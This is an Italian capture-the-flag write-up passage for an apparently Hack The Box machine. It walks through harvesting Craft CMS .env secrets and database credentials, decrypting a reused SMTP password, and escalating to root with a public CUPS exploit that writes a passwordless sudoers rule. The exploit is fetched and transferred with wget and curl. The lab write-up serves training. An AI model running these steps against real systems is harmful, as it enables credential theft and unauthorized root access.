Verifichiamolo:

```bash
id aporter
getent passwd aporter
```

Otteniamo:

```text
uid=1001(aporter) gid=1001(aporter) groups=1001(aporter)
aporter:x:1001:1001::/home/aporter:/bin/bash
```

L'utente `aporter` possiede una home directory e una shell Bash.
Il nostro obiettivo diventa ottenere le sue credenziali e recuperare la user flag.
## 13. Ricerca delle credenziali nell'applicazione Craft CMS

La reverse shell si trova inizialmente in:

```text
/var/www/portal/web
```

Esaminiamo la directory superiore:

```text
/var/www/portal/
```

Al suo interno sono presenti:

```text
-rw-r--r--  1 www-data www-data    753 Aug 10 18:37 .env
-rw-r--r--  1 www-data www-data    411 May 13  2026 .env.example.dev
-rw-r--r--  1 www-data www-data    623 May 13  2026 .env.example.production
-rw-r--r--  1 www-data www-data    619 May 13  2026 .env.example.staging
-rw-r--r--  1 www-data www-data     31 May 13  2026 .gitignore
-rw-r--r--  1 www-data www-data    553 May 13  2026 bootstrap.php
-rw-r--r--  1 www-data www-data    630 Aug 11 13:29 composer.json
-rw-r--r--  1 www-data www-data 314414 Jul 15 21:17 composer.lock
drwxr-xr-x  4   197108   197121   4096 Aug 11 13:29 config
-rwxr-xr-x  1 www-data www-data    309 May 13  2026 craft
drwxr-xr-x  3 www-data www-data   4096 Aug 11 13:29 modules
drwxr-xr-x  5 www-data www-data   4096 Jul 15 21:21 storage
drwxr-xr-x  2 www-data www-data   4096 May 13  2026 templates
drwxr-xr-x 54 www-data www-data   4096 Jul 15 21:18 vendor
drwxr-xr-x  5   197108   197121   4096 Aug 12 17:12 web
```

Il file più interessante è:

```text
/var/www/portal/.env
```

I file `.env` vengono comunemente utilizzati dalle applicazioni PHP per conservare parametri di configurazione e credenziali.
### 13.1 Leggiamo il file .env

Dalla reverse shell:

```bash
cat /var/www/portal/.env
```

Tra i parametri troviamo:

```ini
CRAFT_ENVIRONMENT=production
CRAFT_SECURITY_KEY=IGckihiFK64_lrSgJJ6QLkiPz-ow13Lr

CRAFT_DB_DRIVER=mysql
CRAFT_DB_SERVER=127.0.0.1
CRAFT_DB_PORT=3306
CRAFT_DB_DATABASE=craft
CRAFT_DB_USER=craftuser
CRAFT_DB_PASSWORD=CraftDB_pw_2026
```

Abbiamo recuperato:

|Parametro|Valore|
|---|---|
|Database|`craft`|
|Host|`127.0.0.1`|
|Porta|`3306`|
|Utente DB|`craftuser`|
|Password DB|`CraftDB_pw_2026`|

Abbiamo inoltre trovato `CRAFT_SECURITY_KEY`, che verrà utilizzata successivamente.
## 14. Accesso al database MariaDB

Utilizziamo le credenziali recuperate per interrogare MariaDB.

Poiché siamo all'interno di una reverse shell, conviene eseguire le query senza aprire una console MySQL interattiva.

### 14.1 Elenchiamo le tabelle

```bash
MYSQL_PWD='CraftDB_pw_2026' mysql -h 127.0.0.1 -u craftuser -D craft --batch -e 'SHOW TABLES;'
```

Spiegazione:

- `MYSQL_PWD`: fornisce la password attraverso una variabile d'ambiente temporanea.
- `-h`: specifica il server del database.
- `-u`: specifica l'utente.
- `-D`: seleziona il database.
- `--batch`: produce un output semplice.
- `-e`: esegue una query SQL e termina.

`MYSQL_PWD` è comodo nel laboratorio, ma può esporre la password attraverso l'ambiente del processo.

Tra le tabelle presenti troviamo:

```text
users
miles_members
sso_identities
htbairways_settings
```

La tabella `htbairways_settings` è particolarmente interessante perché sembra contenere configurazioni personalizzate di HTB Airways.
### 14.2 Esaminiamo la struttura della tabella

```bash
MYSQL_PWD='CraftDB_pw_2026' mysql -h 127.0.0.1 -u craftuser -D craft -e 'DESCRIBE htbairways_settings;'
```

La struttura è:

```text
Field	Type	Null	Key	Default	Extra
id	int(11)	NO	PRI	NULL	auto_increment
name	varchar(190)	NO		NULL	
value	text	YES		NULL	
dateCreated	datetime	YES		NULL	
dateUpdated	datetime	YES		NULL
```

Si tratta di una tabella chiave-valore: ogni riga associa un nome a un valore di configurazione.
### 14.3 Leggiamo le configurazioni

```bash
MYSQL_PWD='CraftDB_pw_2026' mysql -h 127.0.0.1 -u craftuser -D craft -e 'SELECT id, name, value FROM htbairways_settings;'
```

Otteniamo:

```
id	name	value
1	mailRelayPassword	u0E7OgbBeWhhPn1HajsFMDg0ZDJhNzUwZTUyNGMxYjBlZDk0MGFkZWE5MmEyMzc0ZjhmMmM4OGNiNTRiNDAzZTA2YWFjM2U5OWU2YWIzMGUPrGNmIwqUOPL3Y0gahxRF5wvwsBHdA3Pf4+d1XnQ4I3W/cqDF7Pr/58qVfPoNl5w=
2	mailRelayHost	mail.htbairways.htb
3	mailRelayPort	587
4	mailRelayUser	aporter
```

**Risultato:**

|ID|Name|Value|
|---|---|---|
|1|`mailRelayPassword`|Stringa Base64|
|2|`mailRelayHost`|`mail.htbairways.htb`|
|3|`mailRelayPort`|`587`|
|4|`mailRelayUser`|`aporter`|

Abbiamo finalmente trovato un riferimento diretto all'utente Linux `aporter`.

La configurazione del server SMTP utilizza infatti:

```text
mailRelayUser = aporter
```

La password non è memorizzata in chiaro. Il valore `mailRelayPassword` è una lunga stringa Base64.

È importante ricordare che Base64 è una codifica, non un algoritmo di cifratura. In questo caso la stringa Base64 contiene dati effettivamente cifrati.

Dobbiamo quindi capire come l'applicazione li decifra.
## 15. Individuazione dell'algoritmo di decifratura

Abbiamo accesso ai file PHP dell'applicazione Craft CMS.

Possiamo cercare dove viene utilizzato il parametro `mailRelayPassword`. Proviamo a cercare nelle directory `/var/www/portal/modules` e `/var/www/portal/config` individuate durante l'enumerazione del filesystem, al **punto 13 del writeup**.

Eseguiamo:

```bash
grep -RniE 'mailRelayPassword|mailRelayUser|htbairways_settings' /var/www/portal/modules /var/www/portal/config 2>/dev/null
```

Spiegazione:

- `grep`: cerca testo nei file.
- `-R`: ricerca ricorsivamente nelle directory.
- `-n`: mostra il numero di riga.
- `-i`: ignora maiuscole e minuscole.
- `-E`: abilita le espressioni regolari estese.
- `|`: separa le parole da cercare.
- `2>/dev/null`: nasconde gli errori.

Il risultato individua il file:

```text
/var/www/portal/modules/htbairways/console/controllers/MilesController.php
```

Alle righe 90-103 troviamo la logica di decifratura.

Visualizziamo la porzione di codice:

```bash
sed -n '88,110p' /var/www/portal/modules/htbairways/console/controllers/MilesController.php
```

Il punto fondamentale è:

```php
->decryptByKey(base64_decode($kv['mailRelayPassword']), $securityKey);
```

Abbiamo scoperto che:

1. La password viene letta dal database.
2. La stringa viene decodificata da Base64.
3. I dati ottenuti vengono decifrati con il metodo Yii `decryptByKey()`.
4. La decifratura utilizza la chiave di sicurezza dell'applicazione.

Possediamo già questa chiave, recuperata dal file `.env`:

```text
CRAFT_SECURITY_KEY=IGckihiFK64_lrSgJJ6QLkiPz-ow13Lr
```

Possiamo quindi recuperare la password originale senza dover forzare l'algoritmo di cifratura.
## 16. Decifratura della password di aporter

### 16.1 Recuperiamo la chiave di sicurezza

Leggiamo `CRAFT_SECURITY_KEY` dal file `.env` e salviamola in una variabile d'ambiente:

```
export KEY=$(grep '^CRAFT_SECURITY_KEY=' /var/www/portal/.env | cut -d= -f2-)
```

La variabile `KEY` contiene ora la chiave utilizzata da Craft CMS per cifrare e decifrare i dati.
### 16.2 Recuperiamo la password cifrata

Interroghiamo MariaDB e salviamo il risultato nella variabile `ENCRYPTED`:

```
export ENCRYPTED=$(MYSQL_PWD='CraftDB_pw_2026' mysql -h 127.0.0.1 -u craftuser -D craft -N -B -e "SELECT value FROM htbairways_settings WHERE name='mailRelayPassword';")
```

La variabile contiene la password cifrata, codificata in Base64.
### 16.3 Decifriamo la password con PHP

Utilizziamo la libreria Yii già installata sul server:

```
php -r 'require "/var/www/portal/vendor/autoload.php"; echo (new \yii\base\Security())->decryptByKey(base64_decode(getenv("ENCRYPTED")), getenv("KEY")), PHP_EOL;'
```

Spiegazione:

- `require`: carica le librerie di Craft CMS e Yii.
- `getenv("ENCRYPTED")`: recupera la password cifrata.
- `base64_decode()`: rimuove la codifica Base64.
- `getenv("KEY")`: recupera la chiave di sicurezza.
- `decryptByKey()`: decifra la password utilizzando Yii.
- `echo`: stampa il risultato.

**Risultato:**

```
Skyp0rt_Relay!26
```

Abbiamo recuperato le credenziali:

```text
Username: aporter
Password: Skyp0rt_Relay!26
```
## 17. Accesso all'utente Linux aporter

Ora verifichiamo se la password SMTP viene riutilizzata anche dall'account Linux `aporter`.
### 17.1 Cambiamo utente con su

Dalla shell del server `portal`:

```bash
su - aporter
```

Inseriamo la password recuperata:

```text
Skyp0rt_Relay!26
```

L'autenticazione riesce.

Otteniamo:

```text
aporter@portal:~$
```

Il comando `su - aporter` avvia una sessione dell'utente `aporter`, caricandone l'ambiente e spostandoci nella sua home directory.
### 17.2 Miglioriamo la shell

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Impostiamo inoltre:

```bash
export TERM=xterm
```

Questo indica alle applicazioni il tipo di terminale utilizzato.
### 17.3 Verifichiamo l'accesso

```bash
whoami
id
pwd
```

Risultato:

```text
aporter
uid=1001(aporter) gid=1001(aporter) groups=1001(aporter)
/home/aporter
```

**Abbiamo completato il passaggio da** `**www-data**` **ad** `**aporter**`**.**
## 18. Recupero della User Flag

Ora che siamo autenticati come `aporter`, possiamo accedere alla sua home directory.

Eseguiamo:

```bash
ls -l ~
```

Troviamo:

```text
-rw-r----- 1 aporter aporter   33 Nov 17 20:19 user.txt
```

Il file appartiene ad `aporter`, quindi il nostro utente può leggerlo.

Recuperiamo la flag:

```bash
cat /home/aporter/user.txt
```

**User Flag ottenuta.**
## 19. Considerazioni finali

La compromissione fino alla user flag ha richiesto lo sfruttamento consecutivo di diverse debolezze.

La rete wireless aperta ha permesso di catturare traffico HTTP appartenente ad altri client. L'assenza di HTTPS sul portale Miles ha esposto le credenziali di Jenny Crawford.

Le stesse credenziali permettevano di accedere al pannello di controllo Craft CMS, dove una versione vulnerabile ha consentito l'esecuzione di comandi sul server.

Una volta ottenuta la shell `www-data`, il file `.env` ha fornito le credenziali del database e la chiave di sicurezza dell'applicazione. Attraverso il codice PHP del modulo HTB Airways abbiamo identificato il metodo con cui veniva decifrata la password SMTP.

Infine, il riutilizzo della password SMTP per l'account Linux `aporter` ci ha consentito di accedere alla home dell'utente e recuperare la flag.

**Il punto fondamentale della macchina è la catena di compromissione:** ogni passaggio fornisce le informazioni necessarie per quello successivo, fino all'ottenimento della user flag.
# Privilege escalation
## 1 Verifichiamo i permessi sudo

Il primo controllo consiste nel verificare se `aporter` è autorizzato a eseguire comandi come root.

```bash
sudo -l
```

Inseriamo la password di `aporter` quando richiesta.

Il sistema risponde:

```text
Sorry, user aporter may not run sudo on portal.
```

Questo significa che l'utente non dispone di autorizzazioni sudo.

Dobbiamo quindi individuare un altro meccanismo per ottenere privilegi amministrativi.
## 2. Enumerazione dei processi

Iniziamo esaminando i processi attivi sul sistema.

```bash
ps auxww
```

Spiegazione:

- `ps`: elenca i processi.
- `a`: include processi associati ad altri utenti.
- `u`: mostra il proprietario e altre informazioni.
- `x`: include processi senza terminale.
- `ww`: evita di troncare le righe di comando lunghe.

Tra i risultati troviamo:

```text
USER   PID  COMMAND
root   281  /usr/sbin/cupsd -f
```

Questo processo attira la nostra attenzione.

`cupsd` è il demone del servizio **CUPS (Common UNIX Printing System)**, utilizzato sui sistemi Linux e Unix per gestire stampanti e lavori di stampa.

Il processo viene eseguito come `root`, quindi dispone di privilegi amministrativi.

Un'eventuale vulnerabilità che permetta di controllare le operazioni privilegiate di `cupsd` potrebbe consentirci di ottenere privilegi root.
### 3.1 Individuiamo la configurazione del servizio

Per capire come viene avviato, esaminiamo la configurazione del servizio attraverso il comando:

```bash
systemctl cat cups.service
```

Il comando `systemctl cat` mostra il contenuto del file di configurazione di un servizio systemd, indicandone anche il percorso.

Otteniamo:

```ini
# /etc/systemd/system/cups.service
[Unit]
Description=CUPS Scheduler
After=network.target

[Service]
Type=simple
Environment=LD_LIBRARY_PATH=/usr/lib64
ExecStart=/usr/sbin/cupsd -f
Restart=on-failure
RestartSec=2s

[Install]
WantedBy=multi-user.target
```

Analizziamo le direttive principali:

- `Description=CUPS Scheduler`: descrive il servizio.
- `After=network.target`: stabilisce che il servizio venga avviato dopo il raggiungimento del target di rete.
- `Type=simple`: indica che systemd gestisce direttamente il processo avviato.
- `Environment=LD_LIBRARY_PATH=/usr/lib64`: specifica una directory nella quale cercare le librerie condivise.
- `ExecStart=/usr/sbin/cupsd -f`: avvia il demone CUPS in primo piano.
- `Restart=on-failure`: riavvia automaticamente il servizio in caso di errore.
- `RestartSec=2s`: attende due secondi prima del riavvio.

Abbiamo quindi scoperto che:

- Il file che definisce il servizio si trova in `/etc/systemd/system/cups.service`.
- Il programma eseguito è `/usr/sbin/cupsd`.
- Il servizio utilizza la directory `/usr/lib64` per la ricerca delle librerie condivise.
- Il processo viene eseguito come **root**, come già verificato durante l'enumerazione.

Ora possiamo approfondire il servizio CUPS, verificando la porta su cui è in ascolto e la versione installata, per individuare eventuali vulnerabilità sfruttabili per la privilege escalation.
### 3.2 Verifichiamo che CUPS sia attivo

Eseguiamo:

```bash
systemctl status cups.service
```

Otteniamo:

```text
● cups.service - CUPS Scheduler
     Loaded: loaded (/etc/systemd/system/cups.service; enabled)
     Active: active (running)
   Main PID: 281 (cupsd)
```

Abbiamo confermato che CUPS è attivo.
### 3.3 Verifichiamo la porta di ascolto

CUPS utilizza normalmente il protocollo IPP (_Internet Printing Protocol_) sulla porta TCP 631.

Controlliamo:

```bash
ss -lntup | grep 631
```

Spiegazione:

- `ss`: mostra le connessioni e i socket di rete.
- `-l`: mostra le porte in ascolto.
- `-n`: mostra indirizzi e porte numerici.
- `-t`: include TCP.
- `-u`: include UDP.
- `-p`: mostra informazioni sui processi, quando disponibili.
- `grep 631`: filtra il risultato cercando la porta 631.

Risultato:

```text
tcp LISTEN 127.0.0.1:631
tcp LISTEN [::1]:631
```

CUPS è raggiungibile attraverso l'interfaccia di loopback.

L'indirizzo `127.0.0.1` indica che il servizio è accessibile localmente, direttamente dal server `portal`.

Non abbiamo quindi bisogno di esporre il servizio sulla rete o creare un port forwarding.
## 4. Identificazione della versione di CUPS

Per verificare quale versione è installata, possiamo interrogare direttamente il servizio HTTP/IPP.

Eseguiamo:

```bash
curl -i http://127.0.0.1:631/
```

L'opzione `-i` permette di visualizzare anche gli header HTTP restituiti dal server.

La risposta contiene:

```http
HTTP/1.1 404 Not Found
Server: CUPS/2.4 IPP/2.1
```

Nel contenuto HTML troviamo:

```html
<TITLE>Not Found - CUPS v2.4.16</TITLE>
```

Abbiamo identificato la versione:

**CUPS 2.4.16**

Il codice `404` indica soltanto che la risorsa richiesta non è disponibile. Non significa che il servizio non funzioni.

A questo punto possiamo cercare vulnerabilità note relative alla versione identificata.
## 5. Individuazione della CVE-2026-34990

La versione CUPS 2.4.16 è interessata da una vulnerabilità di privilege escalation locale:

**CVE-2026-34990 — Local print admin token disclosure using temporary printers**

La vulnerabilità permette a un utente locale non privilegiato di ottenere un token di autenticazione utilizzato da CUPS per eseguire operazioni amministrative.

Il problema può essere sfruttato per creare una coda di stampa che scriva i dati ricevuti direttamente su un file del filesystem.

Se il processo `cupsd` dispone dei privilegi root, la scrittura può avvenire con privilegi root.

Questo permette, in determinate condizioni, di sovrascrivere file che normalmente non sarebbero modificabili da un utente ordinario.

### 5.1 Come funziona la vulnerabilità

Il meccanismo può essere riassunto in cinque passaggi.

1. L'attaccante prepara un falso server IPP in ascolto su localhost.
2. Induce `cupsd` a collegarsi al server IPP controllato dall'attaccante, ottenendo un token `Authorization: Local`.
3. Utilizza quel token per effettuare richieste amministrative a CUPS.
4. Crea una stampante con un URI di destinazione del tipo `file:///percorso/del/file`, sfruttando una condizione di race e le operazioni di configurazione della stampante.
5. Invia un lavoro di stampa contenente i dati da scrivere. CUPS li salva nel file di destinazione con i privilegi del servizio.

L'exploit che utilizzeremo sfrutta questa possibilità per creare un file nella directory:

```text
/etc/sudoers.d/
```

Questa directory contiene configurazioni aggiuntive di `sudo`.

Il file creato assegnerà a `aporter` il permesso di eseguire qualsiasi comando come root senza inserire la password.

Una volta creata la regola, potremo ottenere una shell amministrativa.
## 6. Verifica dei prerequisiti

Prima di eseguire l'exploit, verifichiamo che sul server siano presenti gli strumenti necessari.

### 6.1 Verifichiamo ipptool

```bash
command -v ipptool
```

Risultato:

```text
/usr/bin/ipptool
```

`ipptool` è uno strumento utilizzato per inviare richieste IPP e verificare il funzionamento dei server e delle stampanti.

L'exploit lo utilizza per interagire con CUPS e ottenere il token di autenticazione.

### 6.2 Verifichiamo il file di test IPP

```bash
ls -l /usr/share/cups/ipptool/cups-create-local-printer.test
```

Risultato:

```text
-r--r--r-- 1 root root 860 Aug 19 20:04 /usr/share/cups/ipptool/cups-create-local-printer.test
```

Il file è presente ed è leggibile.

Contiene un test IPP utilizzato per richiedere la creazione di una stampante locale.
### 6.3 Verifichiamo lo scheduler

```bash
lpstat -r
```

`lpstat` mostra informazioni sul sistema di stampa.

L'opzione `-r` verifica se lo scheduler è attivo.

Risultato:

```text
scheduler is running
```

Abbiamo quindi confermato i prerequisiti principali:

|Requisito|Risultato|
|---|---|
|CUPS 2.4.16|Presente|
|Servizio cupsd come root|Confermato|
|Porta TCP 631|In ascolto|
|ipptool|Installato|
|cups-create-local-printer.test|Presente|
|Scheduler CUPS|Attivo|
|Utente locale non privilegiato|aporter|

Possiamo procedere.
## 7. Download dell'exploit su Parrot

Utilizziamo un Proof of Concept pubblico, scritto in Python, disponibile su GitHub:

**Repository:** [`khush-613/CVE-2026-34990-poc`](https://github.com/khush-613/CVE-2026-34990-poc/tree/main)

Il file che ci interessa è:

```text
exploit.py
```

Poiché siamo collegati al server `portal` attraverso una reverse shell e la rete del container non dispone di una rotta predefinita, scarichiamo prima il file su Parrot.

Successivamente lo trasferiremo al sistema compromesso sfruttando la condivisione RDP già disponibile.

### 7.1 Prepariamo la directory su Parrot

Apriamo un terminale sul nostro sistema Parrot.

Creiamo una directory per ospitare il file:

```bash
mkdir -p layover-share
```

- `mkdir`: crea una directory.
- `-p`: crea le directory mancanti senza generare un errore se esistono già.

### 7.2 Scarichiamo il PoC

Sempre su Parrot:

```bash
wget -O layover-share/cups_exploit.py https://raw.githubusercontent.com/khush-613/CVE-2026-34990-poc/main/exploit.py
```

Spiegazione:

- `wget`: scarica un file da un indirizzo HTTP o HTTPS.
- `-O`: specifica il nome e il percorso del file di destinazione.
- L'URL indica il file Python pubblicato nel repository GitHub.
## 8. Trasferimento dell'exploit tramite airside-ws01

Dobbiamo trasferire lo script dal nostro sistema Parrot al server `portal`.

Non è necessario utilizzare SSH o installare un server FTP.

Possiamo utilizzare la condivisione delle directory supportata da FreeRDP.

### 8.1 Condividiamo la directory di Parrot

Per configurare la condivisione, avviamo da Parrot una sessione RDP verso `airside-ws01` con l'opzione `/drive`:

```bash
xfreerdp3 /v:10.129.247.82 /u:contractor /cert:ignore /dynamic-resolution /drive:share,$HOME/layover-share
```

Quando viene richiesta, inseriamo la password iniziale:

```text
Contractor2026!
```

L'opzione importante è:

```text
/drive:share,$HOME/layover-share
```

Indica a FreeRDP di rendere disponibile la directory locale `~/layover-share` nella sessione remota, con il nome `share`.

Se la condivisione è già attiva nella nostra sessione RDP, non è necessario aprirne un'altra.
### 8.2 Verifichiamo la directory su airside-ws01

Apriamo un terminale nella sessione grafica di `contractor`.

Eseguiamo:

```bash
ls -la ~/thinclient_drives/
```

Troviamo una directory chiamata:

```text
share
```

Il suo percorso è:

```text
/home/contractor/thinclient_drives/share
```

Questa directory corrisponde alla directory `~/layover-share` di Parrot.

Il file `cups_exploit.py` è quindi accessibile anche da `airside-ws01`.pwd
### 8.3 Avviamo un server HTTP su airside-ws01

Dal terminale di `airside-ws01` eseguiamo:

```bash
python3 -m http.server 8000 --bind 10.13.37.182 --directory ~/thinclient_drives/share
```

Spiegazione:

- `python3 -m http.server`: avvia un semplice server HTTP.
- `8000`: porta utilizzata.
- `--bind 10.13.37.182`: utilizza l'indirizzo Wi-Fi della workstation.
- `--directory`: indica la cartella contenente i file da condividere.

Il server HTTP rende disponibile il nostro exploit all'indirizzo:

```text
http://10.13.37.182:8000/cups_exploit.py
```

Lasciamo questo terminale aperto.

Il trasferimento avverrà attraverso:

```text
Parrot
/home/parrot/layover-share/cups_exploit.py
            |
            | Condivisione RDP
            v
airside-ws01
/home/contractor/thinclient_drives/share/
            |
            | Server HTTP :8000
            v
portal
10.13.37.10
```

Questo metodo è possibile perché il container `portal` e `airside-ws01` si trovano entrambi sulla rete `10.13.37.0/24`.

Se la workstation ha ricevuto un IP Wi-Fi differente, dobbiamo utilizzare quello effettivamente assegnato.
## 9. Download dell'exploit sul server portal

Torniamo alla shell:

```text
aporter@portal:~$
```

Scarichiamo lo script dal server HTTP di `airside-ws01`:

```bash
curl -fsS http://10.13.37.182:8000/cups_exploit.py -o /tmp/cups_exploit.py
```

Spiegazione:

- `curl`: effettua una richiesta HTTP.
- `-f`: segnala un errore se il server restituisce una risposta HTTP di errore.
- `-s`: disabilita la barra di avanzamento.
- `-S`: mostra comunque i messaggi di errore.
- `-o`: salva il contenuto ricevuto nel file specificato.

Il file viene salvato in:

```text
/tmp/cups_exploit.py
```

### 9.1 Verifichiamo il trasferimento

```bash
ls -lh /tmp/cups_exploit.py
```

Il comando deve mostrare il file Python appena scaricato.
## 10. Analisi del Proof of Concept

Prima di eseguire lo script, è importante capire quali operazioni effettuerà.

Il PoC è configurato per attaccare il servizio CUPS locale:

```python
CUPS_HOST = "127.0.0.1"
CUPS_PORT = 631
```

Questo significa che l'exploit non deve collegarsi a un server esterno: comunica direttamente con il servizio CUPS presente su `portal`.
### 10.1 Falso server IPP

Lo script prepara un server IPP locale utilizzando:

```python
CAPTURE_HOST = "127.0.0.1"
CAPTURE_PORT = 9189
```

Il server serve a intercettare il token di autenticazione utilizzato da CUPS.
### 10.2 Il file che verrà scritto

L'exploit definisce il percorso del file da creare attraverso:

```python
PWN_FILE = Path(
    os.environ.get(
        "CUPS_TARGET",
        f"/etc/sudoers.d/{ATTACKER}-pwn"
    )
)
```

Per il nostro utente, il percorso sarà:

```text
/etc/sudoers.d/aporter-pwn
```
### 10.3 La regola sudo che verrà creata

All'interno dello script troviamo:

```python
SUDOERS_LINE = (
    b"aporter ALL=(ALL) NOPASSWD: ALL\n"
)
```

Questa riga contiene la regola che vogliamo far scrivere nel file `/etc/sudoers.d/aporter-pwn`.

Il suo significato è:

- `aporter`: utente al quale viene assegnato il privilegio.
- `ALL=(ALL)`: può eseguire comandi con qualsiasi identità consentita da sudo.
- `NOPASSWD`: non deve inserire una password.
- `ALL`: può eseguire qualsiasi comando.

Se il file viene creato correttamente con i permessi adatti, `aporter` potrà utilizzare sudo per eseguire `/bin/bash` come root.

**Questa è la parte decisiva dell'exploit.**
### 10.4 Come viene sfruttata la vulnerabilità

Lo script automatizza l'intera sequenza:

1. Avvia un falso server IPP su `127.0.0.1:9189`.
2. Utilizza `ipptool` per indurre CUPS a collegarsi al server.
3. Intercetta il token di autenticazione locale.
4. Utilizza il token per configurare una stampante.
5. Imposta come destinazione della stampante il file `/etc/sudoers.d/aporter-pwn`.
6. Invia un lavoro di stampa compresso con Gzip che contiene la regola sudo.
7. Sfrutta la scrittura del file da parte del processo privilegiato `cupsd`.
8. Verifica che `aporter` possa eseguire comandi come root.

Non dobbiamo eseguire manualmente tutti questi passaggi, perché sono già implementati nel PoC Python.
## 11. Esecuzione dell'exploit

Dalla shell `aporter@portal`, eseguiamo:

```bash
python3 /tmp/cups_exploit.py
```

Il comando avvia lo script Python sul server compromesso.

Lo script tenta di sfruttare la vulnerabilità CVE-2026-34990.

L'exploit utilizza anche una _race condition_, cioè una situazione nella quale il risultato dipende dall'ordine temporale di determinate operazioni.

In questo caso tenta di configurare e utilizzare una stampante locale prima che le verifiche del servizio ne impediscano l'utilizzo.

Il PoC include più tentativi per aumentare la possibilità di riuscita.

Quando lo sfruttamento riesce, la regola sudo viene scritta nel file:

```text
/etc/sudoers.d/aporter-pwn
```

Successivamente, lo script verifica i nuovi privilegi eseguendo un comando attraverso `sudo`.

Se la verifica ha successo, esegue automaticamente:

```bash
sudo -n /bin/bash
```

Spiegazione:

- `sudo`: esegue un programma con privilegi amministrativi.
- `-n`: non richiede interattivamente una password.
- `/bin/bash`: avvia una shell Bash.

La nuova regola sudo consente a `aporter` di eseguire questo comando come root.

**Nel nostro caso l'exploit ha funzionato e abbiamo ottenuto una shell root.**
## 12. Verifica dei privilegi root

Dopo l'esecuzione dell'exploit, il prompt cambia in:

```text
root@portal:~#
```

Verifichiamo la nostra identità:

```bash
whoami
```

Risultato:

```text
root
```

Eseguiamo anche:

```bash
id
```

Risultato:

```text
uid=0(root) gid=0(root) groups=0(root)
```

Questi risultati confermano che stiamo eseguendo comandi come utente `root`.

Non si tratta semplicemente di un processo con qualche capability aggiuntiva: abbiamo ottenuto una vera shell con UID 0 all'interno del sistema `portal`.

Nella cartella `/root` troviamo la root flag.
## 13. Conclusioni

La privilege escalation della macchina Layover è stata possibile a causa di una vulnerabilità presente in OpenPrinting CUPS 2.4.16.

Il punto fondamentale è che un utente Linux ordinario, senza autorizzazioni sudo, è riuscito a sfruttare un servizio eseguito con privilegi root per modificare un file di configurazione amministrativa.

Il PoC ha utilizzato la vulnerabilità per creare una regola sudo che concede a `aporter` l'esecuzione di comandi come root senza password.

Abbiamo quindi ottenuto:

```text
root@portal
uid=0(root) gid=0(root)
```

**Privilege escalation completata con successo.**
